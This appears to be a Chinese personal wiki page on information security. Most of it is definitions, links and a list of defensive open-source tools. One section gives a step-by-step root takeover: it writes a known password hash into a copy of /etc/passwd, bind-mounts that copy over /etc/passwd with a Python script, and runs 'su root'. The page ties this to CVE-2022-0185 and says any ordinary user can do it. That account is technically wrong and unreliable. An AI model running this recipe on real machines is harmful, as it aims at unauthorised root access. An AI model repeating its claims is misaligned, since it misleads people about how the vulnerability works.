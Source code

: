 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
weight: 1
---
```


# 概述

> 参考：
>
> - [Wiki, Information_security](https://en.wikipedia.org/wiki/Information_security)

**Information security(信息安全，简称 infosec)** 是通过降低信息风险来保护信息的实践。

[Data secruity](https://en.wikipedia.org/wiki/Data_security)

[Network security](https://en.wikipedia.org/wiki/Network_security)

**Reverse engineering(逆向工程)** [Reverse engineering](/docs/7.信息安全/Reverse%20engineering/Reverse%20engineering.md)

**Software cracking(软件破解)**

- [Wiki, Software cracking](https://en.wikipedia.org/wiki/Software_cracking)(软件破解)

**Penetration test(渗透测试)**

- [Wiki, Penetration test](https://en.wikipedia.org/wiki/Penetration_test)(渗透测试)

# 待总结

要研究态势感知或安全运营中心，可以采用 OSSIM

要研究入侵防御技术，可以采用 Snort 或 Security Onion

要研究防火墙技术，可以采用 pfSense 或 OPNsense

要研究 Web 应用防火墙（WAF ），可以采用 ModSecurity

要研究威胁情报技术，可以采用 MISP 或 OpenCTI

要研究漏洞扫描技术，可以采用 OpenVAS 或 W3AF

要研究堡垒机技术，可以采用 JumpServer

要研究蜜罐技术，可以采用 T-Pot 或 Hfish

# 学习

[B 站 - 沈奇教练，【黑客奇谈】第三期：0基础成为黑客有多难？15年网安经验倾囊相授，教你正确入门网络安全](https://www.bilibili.com/video/BV1abN4eiEQ8)

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root
输入密码：password
```

# 信息安全历史

[B 站，俄罗斯黑客的激荡三十年](https://www.bilibili.com/video/BV1uu4y1X7FX?spm_id_from=333.1245.0.0)

# 渗透测试

> 参考：
>
> - [Wiki, Penetration test](https://en.wikipedia.org/wiki/Penetration_test)(渗透测试)

BurpSuite

- [官网](https://portswigger.net/burp)

渗透测试的本质是信息收集
